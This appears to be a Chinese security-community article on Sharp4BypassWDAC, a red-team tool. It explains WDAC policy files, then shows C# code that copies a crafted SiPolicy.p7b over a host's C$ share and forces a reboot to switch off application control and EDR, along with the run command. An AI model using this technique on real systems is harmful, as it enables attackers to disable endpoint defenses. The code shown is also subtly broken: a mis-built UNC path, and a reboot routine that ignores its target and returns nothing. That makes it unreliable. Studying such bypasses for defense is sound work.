










# Sharp4BypassWDAC：一种通过上传定制化策略文件绕过 Windows Defender-先知社区

> **来源**: https://xz.aliyun.com/news/17852  
> **文章ID**: 17852

---

在针对 Windows 平台的红队渗透测试和蓝队防御体系研究中，控制 Windows 代码完整性策略（WDAC）的启动策略已经成为一种高级且隐蔽的攻击手法。本节我们通过分析一段典型的代码，理解攻击者是如何通过上传自定义的 SiPolicy.p7b 策略文件，并在目标系统重启后实现策略生效的。

### 0x01 WDAC 介绍

WDAC，全称 Windows Defender Application Control，是微软在 Windows 10 及后续版本中引入的一项高级安全功能，它的核心用途是： 只允许经过授权的应用程序和代码在系统上运行， 阻止所有未被授权的文件执行，无论这些文件是恶意的还是意外引入的，并且允许管理员制定精细的应用程序运行规则，提升设备的整体安全性。

​

WDAC 的工作原理大致可以分为三部分，首先，通过扫描系统，收集受信任程序的签名或哈希信息，策略以 XML 文件或编译后的 .p7b 文件形式存在，比如 SiPolicy.p7b。接着，将策略文件放置到系统指定路径，如 C:\Windows\System32\CodeIntegrity\SiPolicy.p7b，这里的策略需要重启系统后才能生效。当用户或系统尝试执行某个程序时，WDAC 内核组件会检查其是否符合策略要求，不符合条件的程序被直接阻止，无法运行。

​

虽然 WDAC 原本主要依赖复杂的 PowerShell 命令操作，但微软官方推出了一个简单易用的可视化工具——WDAC Wizard，大大降低了使用门槛。

​

WDAC Wizard 是托管在 Azure 上的轻量版工具，所以直接访问即可使用，微软提供的在线访问页面为： <https://webapp-wdac-wizard.azurewebsites.net/>

安装过程需要满足 Windows 10 专业版、企业版或者 Windows 11系统，如下图所示。

​



如果本地没有 .NET 8.0 环境，还需要访问地址： [下载 .NET 8.0 Desktop Runtime (v8.0.15) - Windows x64 Installer](https://dotnet.microsoft.com/zh-cn/download/dotnet/thank-you/runtime-desktop-8.0.15-windows-x64-installer?cid=getdotnetcore) 下载安装环境，如下图所示。

​



进入 WDAC Wizard 后，通常可以看到 新建策略、编辑策略、合并策略 这三个功能区，我们以编辑策略为操作演示案例，如下图所示。

​



选中 "Edit Policy XML File" 按钮，选择默认提供的 XML 模板文件，比如 Recommended\_Driver\_Blocklist.xml，如下图所示。

​



​

进入规则策略版块，此处可以手工调整安全规则，定义是否允许动态代码执行等，如下图所示。



最后，创建生成符合要求的 XML 文件或经过签名的 p7b 文件，如下图所示。

​



使用 WDAC Wizard 生成的策略文件通常包括两种格式：

.xml 原始未签名的 WDAC 策略文件，该文件可阅读、修改、删除。

.p7b 签名后的策略二进制文件，可用于系统加载应用。

例如，C:\Windows\System32\CodeIntegrity\SiPolicy.p7b 就是系统实际使用的强制执行版策略文件。

​

### 0x02 Code Integrity

Code Integrity 表示代码完整性，是 Windows 从 Vista 开始引入的一项安全机制，主要目的是：在系统启动或应用程序加载时，验证二进制文件的签名是否有效。确保只有经过授权和未被篡改的驱动程序、系统组件可以运行。 防止恶意程序通过加载非法驱动或篡改系统模块来提权、破坏系统。简单理解，就是一种二进制白名单验证机制。

​

从 Windows 10 开始，Code Integrity 的机制不断加强，比如新增了 Device Guard、WDAC等，而专门负责这部分功能的数据文件、策略文件、日志文件等，都会集中存放在如下系统目录里。

​

```
C:\Windows\System32\CodeIntegrity
```



经常可以在 CodeIntegrity 目录下看到的一些文件，比如 SiPolicy.p7b，该文件是系统应用的应用控制（WDAC）策略文件，决定了哪些程序能运行。

又比如 BootSiPolicy.p7b，该文件是系统启动阶段使用的策略文件，比 SiPolicy.p7b 更早生效。

还有 ci.dll ，它是核心的代码完整性验证模块，是 Windows 内核级驱动之一，虽然它一般位于 System32 下，但 CodeIntegrity 目录与其配合紧密。

### 0x03 应用控制策略

New-CIPolicy 是 PowerShell 创建应用控制策略的关键命令，用于扫描机器上已经存在的文件，比如 C:\Windows 目录、C:\Program Files 目录等，提取出签名信息或者哈希，生成一个基于规则的 XML 文件，比如 SiPolicy.xml。

​

然后配合 ConvertFrom-CIPolicy 命令 ，可以把 XML 转成二进制的 .p7b 文件，这里也就是 SiPolicy.p7b，再应用到 Code Integrity 系统，实现只允许指定程序运行的效果。这个流程属于 WDAC（Windows Defender Application Control）技术体系，是微软官方出品的、非常高安全级别的白名单防护技术。

​

需要注意的是，Windows家庭版并不支持 New-CIPolicy，可以选择企业版、专业版、服务器版本。如果是 Windows 家庭版，本身就没有 WDAC，就无法直接用 New-CIPolicy。如果想确认本机是否存在 New-CIPolicy 这个命令，可以以管理员身份打开 PowerShell 后运行如下所示的命令。

​

```
Get-Command New-CIPolicy
```



返回的信息如图所示，从来源看属于 ConfigCI 模块，这个模块是专门用于创建、管理 WDAC 策略的。

接着，我们创建一个临时输出目录，将 New-CIPolicy 命令生成的 XML 策略文件结果保存到该目录下，具体命令内容如下所示。

​

```
PS C:\Windows\system32> $OutputDir = "C:\Windows\Temp\SiPolicy"
PS C:\Windows\system32> New-Item -ItemType Directory -Path $OutputDir -Force | Out-Null
PS C:\Windows\system32> New-CIPolicy -Level Publisher -Fallback Hash -FilePath "$OutputDir\SiPolicy.xml"
```



​

随后，将 XML 策略文件转换成二进制 p7b 格式，这里用 ConvertFrom-CIPolicy 命令实现转换，具体命令如下所示。

​

```
ConvertFrom-CIPolicy -XmlFilePath "$OutputDir\SiPolicy.xml" -BinaryFilePath "$OutputDir\SiPolicy.p7b"
```

​

执行完上面的脚本后，会在 C:\WindowsTemp\SiPolicy 目录下看到 SiPolicy.xml、SiPolicy.p7b 两个文件。其中，SiPolicy.xml 是策略的原始 XML 文件，可以用 WDAC Wizard 工具查看和编辑，SiPolicy.p7b 则是生成好的二进制策略文件，可以放到 CodeIntegrity 目录里。

### 0x04 编码实现

下面是Sharp4BypassWDAC工具的核心代码，主要实现了两个操作：上传 SiPolicy.p7b 文件到目标机和强制远程或本地重启目标机。这两个动作配合起来，可以让攻击者注入新的 Windows 代码完整性策略（WDAC），进而控制目标机系统层级的执行权限。具体代码如下所示。

​

```
Console.WriteLine("[+] Launching attack on " + host);
string target = @"\" + host + @"\C$\Windows\System32\CodeIntegrity\SiPolicy.p7b";
byte[] policy = Modules.Policy.ReadPolicy();
File.WriteAllBytes(target, policy);
Console.WriteLine("[+] Moved policy successfully");
bool warn = Convert.ToBoolean(prompt);
bool rebooted = Reboot.reboot(host, warn);
```

​

首先，通过 \\host\C$\Windows\System32\CodeIntegrity\SiPolicy.p7b 路径，定位远程机器的系统 CodeIntegrity 目录。

接着，调用 Modules.Policy.ReadPolicy() 方法，读取一段事先准备好的 SiPolicy.p7b 策略文件，使用 File.WriteAllBytes(target, policy) 将策略文件直接写入远程目标机。

最后，调用 Reboot.reboot(host, warn)，强制使目标机重启，从而让新的策略生效，具体代码如下所示。

​

```
public static bool reboot(string computer, bool warn)
{
    Process.Start(new ProcessStartInfo
    {
        FileName = "shutdown",
        Arguments = "/r /t 0", // /r = 重启，/t 0 = 0秒后立即执行
        CreateNoWindow = true,
        UseShellExecute = false
    });
}
```

​

这里没有使用 InitiateSystemShutdownEx 而是通过系统自带的 shutdown.exe 命令，执行重启操作。**运行该工具前，需要在目标设备上执行以下命令，获取当前机器名称，**接着，在目标主机上以管理员身份运行 Sharp4BypassWDAC.exe 工具，具体的命令如下所示。

​

```
Sharp4BypassWDAC.exe --assemblyargs --host DESKTOP-AUU5CDP
```

​

由于 SiPolicy.p7b 在 Windows 启动早期就被加载，一旦成功替换并重启，后续防护机制就很难阻止这种攻击，重启后目标主机的防护被关闭，如下图所示。

​




综上，Sharp4BypassWDAC.exe 是一款针对高防御环境定制的红队工具，通过操控 WDAC 策略并诱导系统重启，有效地击穿 Windows 内置的应用程序控制与 EDR 防护措施。
